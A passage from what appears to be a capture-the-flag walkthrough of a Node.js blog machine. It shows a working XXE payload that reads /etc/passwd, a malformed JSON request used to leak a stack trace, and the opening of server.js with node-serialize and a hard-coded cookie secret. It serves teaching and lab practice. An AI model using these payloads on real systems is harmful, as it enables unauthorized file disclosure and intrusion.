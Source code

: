 PayloadsAllTheThings has a lot of [example payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#exploiting-xxe-to-retrieve-files) for XXE as well. I’ll grab the first one and try to read `/etc/passwd`. I can’t just submit it as is though, I have to work from the template that the site is expecting. I’ll update my XML file to:

```

<?xml version="1.0"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<post>
        <title>0xdf's Post</title>
        <description>Read File</description>
        <markdown>&file;</markdown>
</post>

```

This defines the entity `&file;` as the contents of `/etc/passwd`, and then references it in the markdown field. When I submit this, it works:

![image-20220110123114923](https://0xdfimages.gitlab.io/img/image-20220110123114923.png)

### Find Source Location

After not finding much of interest in various files, I found myself trying to crash the site. Errors in the XML just lead to the example payload. Errors in the urls give simple messages like `Cannot GET /a`. One thing that did work was sending busted JSON to to `/login`:

```

POST /login HTTP/1.1
Host: 10.10.11.139:5000
Content-Type: application/json
Content-Length: 1

{

```

The response included a stack trace:

![image-20220110131328282](https://0xdfimages.gitlab.io/img/image-20220110131328282.png)

It seems the source for the webapp is running in `/opt/blog`.

### Deserialization

#### Source Analysis

I’ll find the source for the application at `/opt/blog/server.js` (`server.js` is a common name for a Node application).

```

const express = require('express')
const mongoose = require('mongoose')
const Article = require('./models/article')
const articleRouter = require('./routes/articles')
const loginRouter = require('./routes/login')
const serialize = require('node-serialize')
const methodOverride = require('method-override')
const fileUpload = require('express-fileupload')
const cookieParser = require('cookie-parser');
const crypto = require('crypto')
const cookie_secret = "UHC-SecretCookie"
```